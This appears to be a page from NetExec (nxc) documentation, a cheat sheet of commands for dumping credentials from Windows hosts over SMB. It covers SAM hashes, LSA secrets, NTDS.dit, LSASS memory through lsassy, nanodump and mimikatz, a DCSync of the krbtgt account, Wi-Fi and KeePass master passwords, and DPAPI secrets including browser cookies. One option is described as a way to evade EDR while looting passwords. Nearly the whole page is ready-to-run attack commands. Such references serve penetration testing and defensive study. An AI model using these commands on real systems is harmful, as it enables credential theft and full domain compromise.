 # Credentials Dumping

### The following examples use a username and plaintext password, although user/hash combos work as well.

# Dump SAM

## Dump SAM hashes using methods from secretsdump.py

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

    nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

# Dump LSA

## Dump LSA secrets using methods from secretsdump.py

## Requires Domain Admin or Local Admin Privileges on target Domain Controller!

    nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

# Dump NTDS.dit

## Requires Domain Admin or Local Admin Privileges on target Domain Controller

## 2 methods are available:   

#### (default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with additional drsuapi calls to convert the resultant linked-lists into readable format  

#### vss - Uses the Volume Shadow copy Service  

---------------------------------------------------------------------------

    nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds

    nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users

    nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users --enabled

    nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

## TIP: You can also DCSYNC with the computer account of the DC

### There is also the ntdsutil module that will use ntdsutil to dump NTDS.dit and SYSTEM hive and parse them locally with secretsdump.py 

    nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M ntdsutil

# Dump LSASS

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

## Using Lsassy

### Using the module Lsassy from @pixis you can dump remotely the credentials

    nxc smb 192.168.255.131 -u administrator -p pass -M lsassy

## Using nanodump

### Using the module nanodump you can dump remotely the credentials

    nxc smb 192.168.255.131 -u administrator -p pass -M nanodump

## Using Mimikatz (Deprecated)

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

### Using the module Mimikatz, the powershell script Invoke-mimikatz.ps1 will be executed on the remote target

    nxc smb 192.168.255.131 -u administrator -p pass -M mimikatz

    nxc smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"

# Dump WiFi password

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

### Get the WIFI password register in Windows

    nxc smb <ip> -u user -p pass -M wireless

# Dump KeePass

### You can check if keepass is installed on the target computer and then steal the master password and decrypt the database!

    NetExec smb <ip> -u user -p pass -M keepass_discover

    NetExec smb <ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"

# Dump DPAPI

### You can dump DPAPI credentials using NetExec using the following option --dpapi. It will get all secrets from Credential Manager, Chrome, Edge, Firefox. --dpapi support options : 

 - cookies: Collect every cookies in browsers

 - nosystem: Won't collect system credentials. This will prevent EDR from stopping you from looting passwords

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

    nxc smb <ip> -u user -p password --dpapi

    nxc smb <ip> -u user -p password --dpapi cookies

    nxc smb <ip> -u user -p password --dpapi nosystem

